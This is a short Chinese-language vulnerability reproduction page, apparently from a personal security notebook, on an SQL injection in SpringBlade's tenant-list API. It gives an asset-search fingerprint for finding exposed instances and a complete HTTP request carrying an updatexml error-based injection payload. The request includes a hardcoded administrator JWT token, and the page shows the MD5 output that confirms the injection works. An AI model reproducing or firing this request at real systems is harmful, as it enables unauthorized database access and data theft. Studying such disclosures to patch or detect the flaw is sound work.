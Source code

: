 # SpringBlade tenant-list存在SQL注入漏洞

# 一、漏洞简介
SpringBlade tenant-list存在SQL注入漏洞，攻击者利用该漏洞进行SQL注 入攻击

# 二、影响版本
+ SpringBlade

# 三、资产测绘
+ `<font style="color:rgb(63, 63, 63);">body="https://bladex.vip"</font>`

![1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71.png](./img/01HOTDbFk8XLc-SW/1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71-948490.png)

# 四、漏洞复现
```java
GET /api/blade-system/tenant/list?updatexml(1,concat(0x7e,md5(123456),0x7e),1)=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Blade-Auth: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJ1c2VyX25hbWUiOiJhZG1pbiIsInJlYWxfbmFtZSI6IueuoeeQhuWRmCIsImF1dGhvcml0aWVzIjpbImFkbWluaXN0cmF0b3IiXSwiY2xpZW50X2lkIjoic2FiZXIiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwibGljZW5zZSI6InBvd2VyZWQgYnkgYmxhZGV4IiwicG9zdF9pZCI6IjExMjM1OTg4MTc3Mzg2NzUyMDEiLCJ1c2VyX2lkIjoiMTEyMzU5ODgyMTczODY3NTIwMSIsInJvbGVfaWQiOiIxMTIzNTk4ODE2NzM4Njc1MjAxIiwic2NvcGUiOlsiYWxsIl0sIm5pY2tfbmFtZSI6IueuoeeQhuWRmCIsIm9hdXRoX2lkIjoiIiwiZGV0YWlsIjp7InR5cGUiOiJ3ZWIifSwiYWNjb3VudCI6ImFkbWluIn0.RtS67Tmbo7yFKHyMz_bMQW7dfgNjxZW47KtnFcwItxQ
```

![1716997675480-3df10816-9fd3-4a5b-9919-73fe9e7af8cd.png](./img/01HOTDbFk8XLc-SW/1716997675480-3df10816-9fd3-4a5b-9919-73fe9e7af8cd-781690.png)

```java
e10adc3949ba59abbe56e057f20f883
```



> 更新: 2024-12-13 17:10:57  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tt8olbrv29tcosdn>
